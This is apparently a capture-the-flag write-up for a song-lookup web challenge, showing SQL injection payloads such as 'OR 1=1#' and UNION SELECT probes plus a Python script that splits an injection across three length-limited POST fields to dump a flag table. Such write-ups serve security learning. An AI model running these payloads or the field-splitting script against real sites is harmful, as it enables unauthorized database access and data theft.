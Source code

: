 # Checking the site

Visiting the site has the following. A simple song lookup with Beatles songs.

![](screenshots/1.png)


# SQLi

The dropdown menus operate with GET parameters, one index each. The text based search works with POST parameters, 3 inputs.

The SQL query is printed out on requests, eg `SELECT * FROM Song Where title like '%%’;`. It is clear even after a single query that the 3 inputs are simply concatenated, 30-30-31 long.

It is a basic SQL injection with limited length. For example `123` reveals nothing, but `123' OR 1=1#` reveals all songs.

The columns of the table can be figured out by incrementing the number of parameters for `UNION SELECT`. It has 6 columns, has no output for anything else: `UNION SELECT 1,2,3,4,5,6#`.

The only problem is the 30 char limit, but it can be bypassed with a small [exploit.py](workdir/exploit.py).

```python
#!/usr/bin/env python3
import requests
import sys
url = 'http://10.10.4.12:881'
query = sys.argv[1]
payload = "?' UNION "+query+" #"
data = {"song": payload[0:30], "song2": payload[30:60], "song3": payload[60:]}
x = requests.post(url, data=data)
sub = x.text
sub = sub[sub.find("SELECT"):]
find = "<tr style=\"color: #8888ff; font-size:20px;\"> <td></td><td>"
lines = sub.split('<tr style=\"color: #8888ff; font-size:20px;\"> <td></td><td>')
for line in lines:
    cols = line.replace("</td><td>", "\t")
    cols = cols.replace("<td>", "")
    cols = cols.replace("</td>", "")
    cols = cols.replace("</tr>", "")
    cols = cols.replace("</table></font>", "")
    print(cols)
```

The only thing to pay attention now is the columns of the output. The database and table structure can be checked out.

![](screenshots/2.png)

There is a `SuperSecretFlag` table, with the flag inside.

![](screenshots/3.png)

# Flag
HCSC{k0mp0nalt_SQ1_1njekcio_konnyu?}